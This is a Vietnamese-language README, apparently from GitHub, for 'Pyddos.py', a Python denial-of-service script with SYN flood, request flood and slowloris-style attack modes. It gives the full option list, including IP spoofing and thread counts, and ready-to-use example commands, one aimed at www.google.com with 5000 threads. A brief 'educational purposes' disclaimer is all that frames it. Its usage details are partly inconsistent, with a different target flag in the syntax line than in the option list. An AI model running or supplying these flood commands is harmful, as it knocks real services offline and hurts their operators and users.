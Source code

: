 # Pyddos.py
* Đây là bản cập nhật mới của tôi
* Script này có 3 kiểu tấn công ddos: SYNFLOOD | YÊU CẦU | Pyslow
* Script có kiểu tấn công pyslow tương tự như kiểu tấn công slowloris

### Ghi chú
* Tôi viết kịch bản này cho mục đích giáo dục không nhằm mục đích phá hoại và các hành động bất hợp pháp, vì vậy tôi sẽ không chịu trách nhiệm về điều đó

### Yêu cầu mô-đun
* màu sắc
* bức tranh màu

### Cách sử dụng
```       
      _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
                                                               
    Tập lệnh python DDos | Tập lệnh dùng để kiểm tra ddos | Tấn công Ddos      
    Tác giả: ___T7hM1___                                               
    Github: https://github.com/DauDau432/pyddos                             
    Version: 3.0 
```
Cú pháp: 
```
./pyddos -t [target] -p [port] -t [number threads]
```
    đối số tùy chọn:
    -h, --help       hiển thị thông báo trợ giúp này và thoát
    -v, --version    hiển thị số phiên bản của chương trình và thoát

    tùy chọn:
    -d <ip|domain>   Chỉ định mục tiêu của bạn như một ip hoặc tên miền
    -t <float>       Đặt thời gian chờ cho ổ cắm
    -T <int>         Đặt số luồng cho kết nối (mặc định = 1000)
    -p <int>         Chỉ định mục tiêu cổng (mặc định = 80) | Chỉ bắt buộc với tấn công pyslow |
    -s <int>         Đặt thời gian ngủ để kết nối lại
    -i <ip address>  Chỉ định ip giả mạo trừ khi sử dụng ip giả
    -Request         Bật mục tiêu yêu cầu
    -Synflood        Bật tấn công synflood
    -Pyslow          Bật tấn công pyslow
    --fakeip         Tùy chọn tạo ip giả nếu không chỉ định ip giả mạo
    
Thí dụ:
```
./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
./pyddos -d www.domain.com -s 100 -Request
./pyddos -d www.google.com -Synflood -T 5000 -t 10.0
```
